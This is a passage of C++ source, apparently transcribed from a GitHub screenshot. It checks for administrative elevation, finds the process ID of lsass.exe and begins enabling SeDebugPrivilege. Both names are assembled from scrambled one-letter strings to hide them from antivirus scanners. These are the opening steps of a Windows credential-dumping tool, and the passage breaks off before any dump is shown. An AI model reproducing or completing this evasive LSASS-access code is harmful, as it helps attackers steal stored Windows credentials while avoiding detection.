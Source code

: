 ```cpp
		TOKEN_ELEVATION elevation;
		DWORD token_sz = sizeof(TOKEN_ELEVATION);
		if (GetTokenInformation(token, TokenElevation, &elevation, sizeof(elevation), &token_sz))
		{
			is_elevated = elevation.TokenIsElevated;
		}
	}
	if (token)
	{
		CloseHandle(token);
	}
	return is_elevated;
}


DWORD getProcessPid()
{
	DWORD processPID = 0;
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";
	if (Process32First(snapshot, &processEntry)) {
		string str1 = "l";
		string str2 = ".";
		string str3 = "s";
		string str4 = "e";
		string str5 = "a";
		string str6 = "x";
		string processname_str = str1 + str3 + str5 + str3 + str3 + str2 + str4 + str6 + str4;
		std::wstring processname(processname_str.begin(), processname_str.end());
		const wchar_t* szName = processname.c_str();
		while (_wcsicmp(processName, szName) != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			processPID = processEntry.th32ProcessID;
		}
	}
	return processPID;
}


bool SetPrivilege()
{
	// Generate privilege name object
	string str1 = "S";
	string str2 = "P";
	string str3 = "e";
	string str4 = "r";
	string str5 = "D";
	string str6 = "i";
	string str7 = "b";
	string str8 = "v";
	string str9 = "u";
	string str10 = "l";
	string str11 = "g";
	string privilegename_str = str1 + str3 + str5 + str3 + str7 + str9 + str11 + str2 + str4 + str6 + str8 + str6 + str10 + str3 + str11 + str3;
	std::wstring privilege_name(privilegename_str.begin(), privilegename_str.end());
	const wchar_t* privName = privilege_name.c_str();
	// Adjust token privileges
	TOKEN_PRIVILEGES priv = { 0,0,0,0 };
	HANDLE hToken = NULL;
```